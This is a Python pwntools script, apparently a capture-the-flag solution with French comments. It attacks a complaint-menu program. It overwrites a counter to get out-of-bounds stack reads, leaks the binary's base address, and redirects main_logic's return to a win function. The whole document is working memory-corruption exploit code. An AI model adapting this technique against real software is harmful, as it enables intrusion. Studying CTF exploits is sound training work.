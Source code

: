 ```py
choice = lambda a: snum(PREFIX, a)
show_leak = lambda a, b: success("%s: %#018x" % (a, b))

def launch():
    if args.REMOTE:
        l = launch_remote
    else:
        l = launch_local
    with context.local(log_level=logging.ERROR):
        l()
    if args.POW:
        solve_pow()

def getb(d, a, b):
    a_ = d.find(a)
    if a_ == -1 or a == b"": a_ = 0
    b_ = d.find(b, a_+len(a))
    if b_ == -1 or b == b"": b_ = len(d)
    return d[a_+len(a):b_]

# ================================================================
# EXPLOIT HERE
# ================================================================

with context.local(log_level=logging.ERROR):
    exe = ELF(file)
    libc = ELF("./libc.so.6")

tries = 0
# tries_prog = log.progress("Tries")
def exploit():
    def add(data):
        choice(1)
        sprefix(data)
    def edit(index, data):
        choice(2)
        choice(index)
        sprefix(data)
    def show():
        choice(3)
        recvu(b"Liste des plaintes:\n")
        leak = recvu(b"1. Ajouter")
        leaks = []
        for l in leak.splitlines():
            leaks.append(getb(l, b". ", b""))
        return leaks
    def quit():
        choice(0)
    
    for _ in range(5): # On ajoute 5 plaintes
        add(b"a")

    # On modifie la dernière pour réécrire nombre_plainte et obtenir un "Out of bound"
    edit(4, b"A"*0x10 + p64(0x20)[:5])

    leaks = show() # On utilise le "Out of bound" pour leak des valeurs de la stack
    exe.address = u64(leaks[0xc]) - 0x3d88 # On leak une adresse du binaire (PIE leak) donc on connait l'adresse de win
    show_leak("exe", exe.address)

    edit(6, b"A"*8 + p64(exe.sym.win+5)) # On réécrire l'adresse de retour de main_logic par celle de win+5 pour éviter les problèmes de stack pas aligné.
    quit() # On quitte le menu pour sauter sur win+5
```